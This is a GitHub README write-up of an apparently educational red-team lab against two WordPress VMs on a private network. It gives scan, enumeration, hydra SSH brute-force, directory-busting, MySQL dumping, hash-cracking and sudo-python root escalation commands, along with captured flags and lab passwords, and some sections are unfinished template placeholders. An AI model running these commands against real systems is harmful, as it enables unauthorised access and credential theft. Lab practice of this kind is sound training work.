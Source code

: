 # WordPressRedTeam_BlueTeam

The network depicted below was used to test exploits and determine vulnerabilities within the WordPress servers.
![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/Final%20Proj%20Topology%20(Updated).png)
Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

# Exposed Services

The nmap scan outlined below identifies the potential points of entry:

nmap $ nmap -sC -sV 192.168.1.110

Target 1:
- Port 22 / SSH
- Port 80 / http
- Port 111 / rpcbind

![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/nmap%20vm1.png)

nmap $ nmap -sC -sV 192.168.1.115

Target 2:
- Port 22 / SSH
- Port 80 / http
- Port 111 / rpcbind

![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/NMAP%20final%20Project.png)

# Critical Vulnerabilities

The following vulnerabilities were identified on each target:

Target 1
- CVE-2019-12215 Full Path Disclosure (192.268.1.110/var/www/html/vendor)
- CVE-2019-15653 html password disclosure - The password hash is viewable in plaintext (192.168.1.110/service.html)
- Wpscan exposed username which allowed brute force of password information.  User access to the wp-config.php file via nano.  This exposed the root user and password.

Target 2
- CVE-2019-12215 Full Path Disclosure (192.168.1.115/vendor/PATH)
- CVE-2015-8476 Php mailer (192.168.1.115/vendor/PHPMailerAutoload.php)

# Exploitation

The Red Team was able to penetrate both Target 1 and Target 2 and retrieve the following confidential data:

Target 1

Before we began, we ran an enumeration scan to uncover the users and hidden directories within the Target.  
- Command used: wpscan --url http://192.168.1.110/wordpress --wp-content-dir -at -eu 
- This command uncovered user names steven and michael.  
   ![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/VM1%20wpscan%20michael.png)

- Once I obtained the usernames I was able to run a hydra command to obtain the password.  As noted above, port 22 is open so I wanted to obtain the password that could be used to SSH into the machine.
- Command used: hydra -l michael -P /usr/share/john/password.lst -vV 22:192.168.1.110
- This command exposed "michael" as the password for the username "michael".  Utilizing ssh michael@192.168.1.110 with password "michael" I was able to gain access to Target 1.  
   
- flag1.txt: 9bbcb33e11b80be759c4e844862482
   - dirbuster was used to uncover the file path that led to the flag exposure.  http://192.168.1.110/service.html.  Utilizing inspector it was uncovered the flag was exposed in plain text.
   - dirbuster command: dirbuster -l /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e -u http://192.168.1.110
   
     ![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/flag%201%20vm1.png)
     
- flag2.txt: fc3fd58dcdad9ab23faca6e9a36e581c
   - gobuster exposed directory path (flag was discovered at 192.168.1.110/vendor/PATH)
   - gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -e -u http://192.168.1.110 
   
     ![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/gobuster%20vm1.png)
     
     ![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/VM2%20Index_Vendor.png)
     
     ![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/dirbuster%20path%20to%20flag2.png)    
     
- flag3.txt: afc01ab56b50591e7dccf93122770cd2
  - Exploit Used
    ![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/nano%20wp-config.png) exposed root password and then uncovered hashes via mysql
    ![TODO:](html) mysql -u root -p wordpress -> show databases; -> select * from wp_posts;
- flag4.txt: 715dea6c055b9fe3337544932f2941ce
  - Exploit Used
   - john hash.txt to translate steven’s hash into password “pink84” -> logged in with steven’s credentials and then ran bin/bash command  to gain root
   - ssh steven@192.168.1.110 -> sudo /usr/bin/python -> import os -> os.system(‘ /bin/bash’) -> ls -> cat flag4.txt

Target 2
- flag1.txt: a2c1f66d2b8051bd3a5874b5b6e43e21
 - Exploit Used 
   ![TODO:](html) gobuster - exposed directory path (flag was discovered at 192.168.1.115/vendor/PATH)
   ![TODO:](html) gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -e -u http://192.168.1.115
- flag2.txt: 
 - Exploit Used
   ![TODO:](html) Identify the exploit used.
   ![TODO:](html) Include the command run.
- flag3.txt:  a0f568aa9de277887f377887f37730d71520d9b
 - Exploit Used
   ![TODO:](html) dirbuster - exposed directory path (flag was discovered at 192.168.1.115/wordpress/wp-content/uploads/2018/11/)
   ![TODO:](html) dirbuster -l /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e -u http://192.168.1.115
- flag4.txt: 
 - Exploit Used
   ![TODO:](html) Identify the exploit used.
   ![TODO:](html) Include the command run.

